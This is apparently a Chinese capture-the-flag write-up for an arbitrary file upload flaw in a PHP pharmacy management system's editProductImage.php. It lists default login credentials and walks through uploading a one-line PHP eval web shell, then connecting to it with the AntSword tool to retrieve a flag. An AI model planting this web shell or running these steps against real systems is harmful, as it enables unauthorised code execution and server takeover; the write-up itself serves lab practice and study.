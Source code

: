 ## 1. 漏洞介绍
多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。该软件有助于为药房业务创建一个综合数据库，并根据到期、产品等各种参数提供各种报告。 该CMS中php_action/editProductImage.php存在任意文件上传漏洞，进而导致任意代码执行。
## 2. 漏洞复现
使用默认账号密码登录： `mayuri.infospace@gmail.com/mayurik`
![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281705856.png)
登录后根据漏洞提示找到产品页并编辑，如下图：
![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281705257.png)
上传一句话木马
```php
<?php
@eval($_POST['shell']);
?>
```
鼠标右击新标签打开查看木马路径
![image.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281707381.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281707376.png)
用中国蚁剑连接获取flag即可
![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281708882.png)